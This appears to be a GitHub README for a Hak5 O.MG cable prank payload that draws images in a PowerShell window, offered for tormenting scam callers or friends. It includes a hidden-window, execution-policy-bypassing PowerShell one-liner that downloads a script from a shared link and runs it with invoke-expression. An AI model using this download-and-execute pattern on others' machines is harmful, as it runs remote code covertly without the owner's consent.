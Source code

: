![Logo](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-AcidBurn/logo-170-px.png?raw=true)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Description">Description</a></li>
    <li><a href="#getting-started">Getting Started</a></li>
    <li><a href="#Contributing">Contributing</a></li>
    <li><a href="#Version-History">Version History</a></li>
    <li><a href="#Contact">Contact</a></li>
    <li><a href="#Acknowledgments">Acknowledgments</a></li>
  </ol>
</details>

# OMG Acid Burn

A script I put together to torment Call Center Scammers but can be used on your friends as well.. or Foes.

## Description

These two programs use two different method to draw out images in the Powershell Window. 
PS-Draw will convert an image you download into a BMP file estiamte the used colors based off the 16 available powershell colors 
then draw your image out in the powershell window. This process is not exact and needed testing of multiple images to find one that works well. 

PS-Custom-Draw generates images to be drawn in the Powershell Window based off pre-configured arrays I put together already included in the file itself. 
These images look significantly cleaner due to the fact they were drawn and coded specifically for this purpose.

## Getting Started

### Dependencies

* DropBox or another image hosting service - Your Shared link for the intended file
* Windows 10,11

<p align="right">(<a href="#top">back to top</a>)</p>

### Executing program

* Plug in OMG Device
* Invoke-WebRequest will be used to download the image 

```
powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https:// < Your Shared link for the intended file> ?dl=1; invoke-expression $pl
```
* The image will be converted into a BMP file
* An algorithm will be used to find the closest matching colors available in the powershell window
* The image will be generated in the powershell window

This is an example of an image I used with the PS-Draw command 
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/omg-ico.png)

This is how the iamge is interpreted and drawn out  
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/PS-Draw.jpg)

* The PS-Custom-Draw operates a little differently 
* One of the preconfigured arrays is piped into the command to generate an image 
 
* "$col | PS-Draw"  - This first one will show the available colors to be used as seen below
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/ps-colors.jpg)

* "$omg | PS-Draw"  - This will draw out the OMG logo as seen below
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/ps-omg.jpg)

* "$hak5 | PS-Draw" - This will draw out the Hak5 logo as seen below
![alt text](https://github.com/I-Am-Jakoby/hak5-submissions/blob/main/OMG-PS-Draw/ps-hak5.jpg)


<p align="right">(<a href="#top">back to top</a>)</p>

## Contributing

All contributors names will be listed here

I am Jakoby

Arf

<p align="right">(<a href="#top">back to top</a>)</p>

## Version History

* 0.1
    * Initial Release

<p align="right">(<a href="#top">back to top</a>)</p>

<!-- CONTACT -->
## Contact

<div><h2>I am Jakoby</h2></div>
  <p><br/>
  
  <img src="https://media.giphy.com/media/VgCDAzcKvsR6OM0uWg/giphy.gif" width="50"> 
  
  <a href="https://github.com/I-Am-Jakoby/">
    <img src="https://img.shields.io/badge/GitHub-I--Am--Jakoby-blue">
  </a>
  
  <a href="https://www.instagram.com/i_am_jakoby/">
    <img src="https://img.shields.io/badge/Instagram-i__am__jakoby-red">
  </a>
  
  <a href="https://twitter.com/I_Am_Jakoby/">
    <img src="https://img.shields.io/badge/Twitter-I__Am__Jakoby-blue">
  </a>
  
  <a href="https://www.youtube.com/c/IamJakoby/">
    <img src="https://img.shields.io/badge/YouTube-I_am_Jakoby-red">
  </a>

  Project Link: [https://github.com/I-Am-Jakoby/hak5-submissions/tree/main/OMG-PS-Draw)
</p>


<p align="right">(<a href="#top">back to top</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Acknowledgments

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">back to top</a>)</p>

